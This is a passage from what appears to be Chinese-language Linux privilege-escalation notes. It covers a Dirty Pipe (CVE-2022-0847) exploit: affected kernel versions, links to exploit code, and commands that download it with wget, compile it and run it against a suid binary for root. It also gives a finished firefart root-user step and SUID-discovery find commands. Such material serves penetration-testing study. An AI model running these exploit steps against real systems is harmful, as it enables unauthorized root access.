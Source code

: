 此时切换到firefart用户，密码为123456

![img](./images/20231018_0003242041.png)

执行id命令后可以看到已经为root用户了，成功提权。

#### Dirty Pipe(CVE-2022-0847)

**利用条件**

```text
5.8<=Linux kernel<5.16.11/5.15.25/5.10.102
```

![img](./images/20231018_0003248307.png)

**EXP：**

```text
https://haxx.in/files/dirtypipez.c 
#原理为 直接修改一个具有suid权限的可执行文件，然后执行这个可执行文件提权，完成提权后再把文件改回来

or

https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit
#原理为 覆盖 /etc/passwd 中的 root 密码字段并在弹出 root shell 后恢复
```

**利用：**

```text
wget https://haxx.in/files/dirtypipez.c
gcc -o dirtypipez dirtypipez.c
./dirtypipez  /usr/bin/su  #任何具体suid权限的文件均可
```

![img](./images/20231018_0003267232.png)

### SUID 提权

```bash
# 查看可以suid 提权的可执行文件
find / -perm -u=s -type f 2>/dev/null
或者
find / -user root -perm -4000 -print 2>/dev/null
```
